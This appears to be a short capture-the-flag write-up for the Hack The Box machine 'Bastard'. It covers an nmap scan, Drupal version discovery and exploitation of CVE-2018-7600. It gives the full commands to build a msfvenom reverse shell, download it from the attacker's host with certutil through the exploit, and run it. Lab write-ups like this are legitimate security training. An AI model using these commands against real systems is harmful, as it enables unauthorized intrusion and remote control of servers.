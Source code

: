 Bastard without metasploit

![Bastard](https://user-images.githubusercontent.com/55708909/91456087-7c893680-e8a0-11ea-997f-faea59304e45.png)


Starting with nmap scan

Nmap -sC -sV -T4 -A -O -oA Bastard -p- 10.10.10.9

![Bastard_nmap](https://user-images.githubusercontent.com/55708909/91456386-d25dde80-e8a0-11ea-9e88-015afaf89bc3.png)

Port 80 give us drupal i thought of running the other tool but ran gobuster. It gave me CHANGELOG.txt which gave me version number and 
thus i drop the idea of running droopescan


![Bastard_change](https://user-images.githubusercontent.com/55708909/91457435-fa9a0d00-e8a1-11ea-839b-546a8a84c1bb.png)

For this particular version there is a python exploit drupa7-CVE-2018-7600.py

Upload the shell using this python exploit, 

Step1:  msfvenom -p windows/x64/shell_reverse_tcp -a x64 --platform windows LHOST=10.10.14.6 LPORT=4444 -f exe >> shell.exe

Step2:  Upload the shell.exe using this commands

python drupa7-CVE-2018-7600.py http://10.10.10.9/ -c  "certutil.exe -urlcache -split -f http://10.10.14.6/shell1.exe  c:\Windows\Temp\shell1.exe"

Step3 : Execute the reverse shell using these commands

python drupa7-CVE-2018-7600.py http://10.10.10.9/ -c  "c:\Windows\Temp\shell1.exe"

We have a shell here.





